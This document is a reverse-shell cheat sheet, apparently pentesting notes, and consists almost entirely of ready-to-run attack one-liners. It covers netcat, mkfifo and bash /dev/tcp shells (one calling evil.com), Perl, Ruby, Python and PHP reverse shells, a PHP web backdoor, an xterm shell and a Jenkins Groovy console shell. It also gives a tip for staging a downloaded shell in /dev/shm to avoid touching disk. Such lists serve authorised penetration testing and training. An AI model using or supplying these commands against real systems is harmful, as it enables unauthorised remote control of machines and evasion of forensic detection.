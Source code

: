 ## Not only One-liner reverse shells...
Netcat:
On the listener:

` nc -l -p 8080 -vvv`

On the remote host...

```
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.103 4444 >/tmp/f &
```

Bash:
```
bash -i >& /dev/tcp/10.0.0.103/4443 0>&1

exec 5<>/dev/tcp/evil.com/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```
Perl:
```
perl -e 'use Socket;$i="10.10.14.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Ruby:

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

Python:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.227",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP:

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)
```
PHP backdoor :

`<?php passthru($_GET['cmd']); ?>`
XTERM:
```
Server:
xterm -display 10.0.0.1:1
Listener:
Xnest :1
xhost +targetip
```

GROOVY SCRIPT SHELL (JENKINS script console)
```
﻿String host="10.10.14.26";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

For getting a revershell in shared memory so as to not touch hard drive use Linux Shared Memory -

'wget IP:port/reverse.py -O /dev/shm/.rev.py'

Python reverse shell - https://github.com/infodox/python-pty-shells

Upload tcp_pty_backconnect.py to target (/dev/shm or /tmp or wherever) [CHANGE IP AND PORT]
Run listener on attacker machine - tcp_pty_shell_handler.py -b IP:port 



